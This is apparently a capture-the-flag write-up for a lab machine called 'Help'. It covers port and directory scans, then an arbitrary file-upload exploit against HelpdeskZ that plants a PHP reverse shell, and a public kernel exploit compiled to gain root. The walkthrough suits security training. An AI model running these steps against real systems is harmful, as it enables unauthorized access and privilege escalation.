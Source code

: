 # Help Writeup

## Getting User

### Nmap Scan

`nmap -sV -sT -sC 10.10.10.121`

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-31 22:12 PDT
Nmap scan report for 10.10.10.121
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.99 seconds
```

### Gobuster

Gobuster on root with `common.txt`

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
```

Nothing really interesting except for `/support/`.

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/controllers (Status: 301)
/css (Status: 301)
/favicon.ico (Status: 200)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/uploads (Status: 301)
/views (Status: 301)
```

Nothing on port 3000

### Interesting Notes

Port 80 
- runs a nodejs app (?) called HelpdeskZ. A search on exploitdb reveals that there is a possible exploit involving arbitrary file upload

Port 3000

- returns a json string: `{"message":"Hi Shiv, To get access please find the credentials with given query"}`

### Getting a Shell

On the HelpdeskZ page, there is an option for submitting tickets that allow us to upload a file. What's better is that according to the exploit, the webserver allows php upload, despite the error message 'file not allowed'. I'm using pentest monkey's php-reverse-shell in this case.

`/support/` actually houses some subdirectories. Using gobuster, `tickets` looks like where our shell uploaded to.

```
support
|-- uploads
|   |-- tickets
|   |   |-- ...
```

Command

```
python 40300.py http://10.10.10.121/support/uploads/tickets/ php-reverse-shell.php
```

The exploit takes advantage of the developer's implementation of filename obfuscation. The uploaded file's name is generated by taking the md5 hash of the system time when the file was uploaded, which allows us to 'guess' the name of our uploaded shell.

A netcat listener on the host machine then captures the reverse shell when the url is visited. The shell is owned by the user `Help`, so we go to the home directory and read out `user.txt`.

## Getting Root

Some basic information reveals that the machine is running on linux kernel 4.4.0, which is extremely outdated. A quick search on exploitdb gives us an exploit that works for our specific version (Ubuntu 16.04 LTS 4.4.0-116).

Compiling the exploit and sending it to the machine gives a root shell!

Command

```
gcc 44298.c -o exploit
```
